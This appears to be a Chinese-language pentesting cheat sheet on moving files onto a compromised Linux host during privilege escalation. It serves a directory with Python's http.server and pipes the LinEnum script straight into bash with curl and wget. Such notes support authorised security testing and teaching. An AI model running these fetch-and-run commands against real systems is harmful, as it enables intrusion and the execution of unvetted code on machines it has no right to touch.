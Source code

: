 # 后渗透-文件上传/下载

在提权过程中，我们经常需要将提权脚本上传到<目标主机>上，或从目标主机上下载文件分析。

## Linux 系统

Linux 上传文件到方式.

首先在本地需要上传的文件所在目录，使用 Python 的 `http.server` 模块快速创建 HTTP 服务：

```
# 在当前目录提供 HTTP 服务，服务端口 8000
python3 -m http.server 8000
```

之后就可以使用 HTTP 服务向目标主机上传文件。

### 不上传文件，直接运行脚本

- curl 

```
curl http://127.0.0.1:8000/linEnum.sh | bash

#或将结果输出到文件
curl http://127.0.0.1:8000/linEnum.sh | bash > /tmp/linenum.txt
```
- wget

```
wget -qO - http://127.0.0.1:8000/linEnum.sh | bash
#或将结果输出到文件
wget -qO - http://127.0.0.1:8000/linEnum.sh | bash > /tmp/linenum.txt
```
